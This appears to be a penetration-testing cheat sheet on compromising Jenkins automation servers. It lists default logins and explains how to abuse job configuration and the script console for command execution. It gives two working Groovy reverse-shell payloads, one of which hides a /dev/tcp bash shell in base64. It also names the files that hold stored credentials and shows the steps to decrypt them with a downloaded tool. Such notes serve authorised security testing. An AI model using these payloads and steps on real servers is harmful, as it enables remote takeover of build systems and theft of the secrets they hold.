 # Jenkins


[Jenkins](https://www.jenkins.io/): is *"an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat. It is used in Automated Build pipelines and CICD."*

Default Passwords
```
jenkins jenkins
admin admin
```

## Pwning Jenkins

[pwn-jenkins](https://github.com/gquere/pwn_jenkins) are incredible notes on attacking Jenkins servers

## Exploitation of Jenkins Panel

With access you can create scheduled jobs that accept shell commands for both Windows and Linux. 

`Dashboard -> Create a job -> Freeform project -> Configure`

May require `cronjob` schedule syntax even on Windows - `* * * * *` to run every minute.

`/Script` endpoint is script console

```groovy
String host="IP";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

A better variant [hacktricks.boitatech - Jenkins](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins) - support the link for the Windows version 
```java
// bash -c 'bash -i >& /dev/tcp/172.17.0.1/10000 0>&1'

def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzEwMDAwIDA+JjEn}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(10000000000000)
println "out> $sout err> $serr"
```
[waitForOrKill - Groovey Documentation](https://docs.groovy-lang.org/2.4.0/html/api/org/codehaus/groovy/runtime/ProcessGroovyMethods.html#waitForOrKill(java.lang.Process,%20long)) *"Wait for the process to finish during a certain amount of time, otherwise stops the process....the number of milliseconds to wait before stopping the process!!"*

## Credential Decryption

Find
```bash
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```

With [Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c config.xml \
  -o json
```


## References

[Jenkins Official ](https://www.jenkins.io/)  
[Wikipedia Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) 
[Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
[hacktricks.boitatech - Jenkins](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins)
[waitForOrKill - Groovey Documentation](https://docs.groovy-lang.org/2.4.0/html/api/org/codehaus/groovy/runtime/ProcessGroovyMethods.html#waitForOrKill(java.lang.Process,%20long)) 